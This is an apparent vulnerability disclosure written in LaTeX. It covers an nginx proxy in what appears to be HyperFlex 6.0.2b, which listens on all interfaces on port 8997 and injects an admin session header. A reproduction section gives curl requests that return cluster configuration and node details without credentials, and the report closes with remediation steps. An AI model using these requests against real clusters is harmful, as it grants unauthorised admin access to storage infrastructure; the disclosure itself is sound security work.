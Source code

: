 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Technical Evidence (6.0.2b)}

\begin{lstlisting}
# rest_internal.conf (storfs-misc_6.0.2b-44423_amd64.deb):
listen *:PORT ssl;                              # line 4 -- all interfaces
proxy_set_header X-RootSessionID SESSIONID;    # line 42
proxy_set_header X-RootSessionID SESSIONID;    # line 72 (stMgr block)

# restintport.cfg:
PORT=8997

# stCli.sh:12 -- remote usage confirmed:
export springpath_host=${clusterIp}
export springpath_port=8997
\end{lstlisting}

\subsection*{Reproduction}

\begin{lstlisting}[style=shell]
# No credentials. Request goes via port 8997 -> nginx injects admin session:
curl -sk https://<ctlvm_ip>:8997/coreapi/v1/clusters
# -> HTTP 200 with full cluster configuration (admin-level response)

curl -sk https://<ctlvm_ip>:8997/rest/v1/nodes
# -> HTTP 200 with all node IPs, serial numbers, and roles
\end{lstlisting}

\subsection*{Impact}

Any machine reachable on port 8997 gets full admin access to the complete
HyperFlex REST API (\texttt{/rest}, \texttt{/coreapi}, \texttt{/encryption},
\texttt{/dataprotection}, \texttt{/backupservice}, \texttt{/stMgr}, and others).

\subsection*{Remediation}

\begin{enumerate}[noitemsep]
\item Change \texttt{listen *:PORT ssl} to \texttt{listen 127.0.0.1:PORT ssl}
  to restrict port 8997 to loopback only.
\item The \texttt{stCli} tool should authenticate against port 443 with
  explicit credentials instead of the privileged proxy port.
\end{enumerate}
\end{document}
